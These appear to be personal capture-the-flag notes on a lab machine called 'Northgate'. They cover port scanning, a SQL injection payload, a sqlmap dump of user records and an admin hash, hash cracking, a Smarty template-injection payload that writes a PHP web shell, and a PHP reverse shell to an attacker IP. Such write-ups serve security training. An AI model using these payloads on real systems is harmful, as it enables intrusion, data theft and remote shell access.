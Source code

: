 ```yaml
---
tags: [Nettitude]
title: Northgate
created: '2020-10-08T13:10:05.487Z'
modified: '2020-11-10T17:34:02.153Z'
---
```


# Northgate

- netdiscover -r 192.168.0.0/16


- nmap -Pn -sS -sV -p- -A 192.168.0.21



  - Web server running port 8880
  

  - SQL Injection?

  ```'or 1=1;#```


  > returns all users
  >However, no debug statements, blind.

  - ```sqlmap -u 'http://192.168.0.21:8880/' --forms --crawl=2 --dump```

```sql
+--------+---------------------------------------------------------------------------------------------------+------+---------------------+
| UserId | Note                                                                                              | Id   | DateTime            |
+--------+---------------------------------------------------------------------------------------------------
  +------+---------------------+
| 10     | Flag 1 is: flag1{2230de66aa4547d2325d8d12276f1085}                                                | 1    | 2020-08-27 14:04:34 |
| 6      | TODO: Add some security to the admin panel                                                        | 2    | 2020-05-11 15:16:33 |
| 10     | Have we been hacked again Nick?                                                                   | 3    | 2020-05-21 13:20:22 |
| 6      | Yes, I've temporarily "disabled" the Smarty template engine so we shouldn't have any more issues! | 4    | 2020-05-30 09:47:38 |
+--------+---------------------------------------------------------------------------------------------------+------+---------------------+

[12:35:32] [INFO] table 'Northgate.Notes' dumped to CSV file '/root/.sqlmap/output/192.168.0.21/dump/Northgate/Notes.csv'                                                                                                 
[12:35:32] [INFO] fetching columns for table 'Users' in database 'Northgate'
[12:35:32] [INFO] fetching entries for table 'Users' in database 'Northgate'
[12:35:32] [INFO] recognized possible password hashes in column 'Pass'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] n
do you want to crack them via a dictionary-based attack? [y/N/q] n
Database: Northgate
Table: Users
[10 entries]
+----------------------------------+------+---------+-----------+----------+--------------------------------------+
| Pass                             | Id   | IsAdmin | Surname   | Forename | EmailAddress                         |
+----------------------------------+------+---------+-----------+----------+--------------------------------------+
| <blank>                          | 1    | 0       | Watt      | Javan    | Javan.Watt@northgate.gov.local       |
| <blank>                          | 2    | 0       | Stokes    | Reece    | Reece.Stokes@northgate.gov.local     |
| <blank>                          | 3    | 0       | Hood      | Yusra    | Yusra.Hood@northgate.gov.local       |
| <blank>                          | 4    | 0       | Garrett   | Lachlan  | Lachlan.Garrett@northgate.gov.local  |
| <blank>                          | 5    | 0       | Collier   | Zofia    | Zofia.Collier@northgate.gov.local    |
| C31AC812DBB4B1A273B3C2D3BD465690 | 6    | 1       | Moon      | Nick     | Nick.Moon@northgate.gov.local        |
| <blank>                          | 7    | 0       | Stuart    | Ebony    | Ebony.Stuart@northgate.gov.local     |
| <blank>                          | 8    | 0       | Blanchard | Baxter   | Baxter.Blanchard@northgate.gov.local |
| <blank>                          | 9    | 0       | Estes     | Humayra  | Humayra.Estes@northgate.gov.local    |
| <blank>                          | 10   | 0       | Perkins   | Viola    | Viola.Perkins@northgate.gov.local    |
+----------------------------------+------+---------+-----------+----------+--------------------------------------+

```


- Hash-Identifier


```bash
root@kali:~/Documents/nettitude# hash-identifier
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: C31AC812DBB4B1A273B3C2D3BD465690

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

```

>crackstation.net or hashcat
>>viola is password
>>> Nick.Moon@northgate.gov.local

- Log into admin page

- ```<script>alert(1)</script>```
- XSS Vulnerability?
> Nope, Template Injection
>> Smarty
- syntax {5*5}
- RCE to shell?

```{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}```

or is it php reverse shell

```$sock=fsockopen("192.168.0.19",4444);exec("/bin/sh -i <&3 >&3 2>&3");```



